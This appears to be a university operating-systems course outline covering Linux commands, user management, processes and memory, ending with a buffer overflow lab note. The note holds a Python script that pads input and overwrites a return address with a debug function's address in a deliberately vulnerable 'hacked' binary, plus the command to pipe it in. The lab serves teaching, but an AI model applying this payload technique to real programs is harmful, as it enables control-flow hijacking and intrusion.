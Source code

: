 1. Basic Linux commands
2. More Linux commands

   1. grep
   1. find
   1. whatis
   1. which
   1. cat
   1. df: Display disk space usage.
   1. uptime
   1. wget/curl
   1. Package Management

3. Shell scripting
   1. echo
   1. history
   1. alias
   1. whoami
      ass:Redirection and Pipes
4. User Management
   1. adduser/useradd: Add a new user
   1. passwd
   1. usermod
   1. deluser/userdel: Delete a user.
5. Linux file system and file security

   1. chmod
   1. chown

6. Processes creation
   1. top/htop
   1. ps aux
   1. kill
7. Introduction to Threads programming
8. CPU scheduling and scheduling algorithms

   > Mid-Term practical exam (capture the flag)

9. Main memory management
10. Virtual memory management
11. Multithreading/Multi-cores programming
    > Course project
    > Examples: Mini-shell, Custom Kernel, etc...

> [!NOTE]
> The Buffer overflow examples
> clone https://github.com/lowlevellearning/secure-server-stuff.git
> objdump -d ./hacked | less and search for the debug func
> add char *gets(char *str); // Declare gets() manually to the hacked.c

```python
# 080491e6 = debug address
import sys

payload = b"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCEEEE"

payload += b"\x08\x04\x91\xe6"[::-1]

sys.stdout.buffer.write(payload)
```

> (python3 ./exploit.py;cat) | ./hacked
